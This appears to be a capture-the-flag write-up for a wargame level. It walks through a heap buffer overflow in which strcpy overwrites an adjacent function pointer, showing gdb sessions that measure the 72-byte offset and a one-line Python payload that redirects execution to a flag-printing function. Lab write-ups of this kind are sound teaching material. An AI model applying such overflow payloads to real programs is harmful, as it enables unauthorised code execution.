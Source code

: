 # level6

This time it's about heap buffer overflows.

There are 2 functions other than `main`:
- `m` simply prints "Nope"
- `n` call `cat` to display the flag

`main` has two calls to `malloc`, the first one to allocate a buffer, and the second one to store a pointer. It then stores the address of `m` in the second one before calling `strcpy` to copy the first argument into the buffer.

The attack will take advantage of the fact that the memory segments returned by `malloc` are adjacent. Just like a stack buffer overflow, we need to find how many bytes we need to overwrite to write over the address.

We can do it by setting breakpoints after each `malloc` call and displaying the value in `$eax`:
```gdb
(gdb) b *0x08048491
Breakpoint 1 at 0x8048491
(gdb) commands
Type commands for breakpoint(s) 1, one per line.
End with a line saying just "end".
>p (void *)$eax
>c
>end
(gdb) b *0x080484a1
Breakpoint 2 at 0x80484a1
(gdb) commands
Type commands for breakpoint(s) 2, one per line.
End with a line saying just "end".
>p (void *)$eax
>end
(gdb) r
Starting program: /home/user/level6/level6

Breakpoint 1, 0x08048491 in main ()
$1 = (void *) 0x804a008

Breakpoint 2, 0x080484a1 in main ()
$2 = (void *) 0x804a050
(gdb) p $2-$1
$3 = 72
```

Lets also not forget to get the address of `n`:
```gdb
(gdb) p n
$6 = {<text variable, no debug info>} 0x8048454 <n>
```

Now all we have to do is craft our payload, and give it as a parameter!

```bash
./level6 $(python -c 'print "A" * 72 + "\x08\x04\x84\x54"[::-1]')
```

Pretty easy overall. 😎
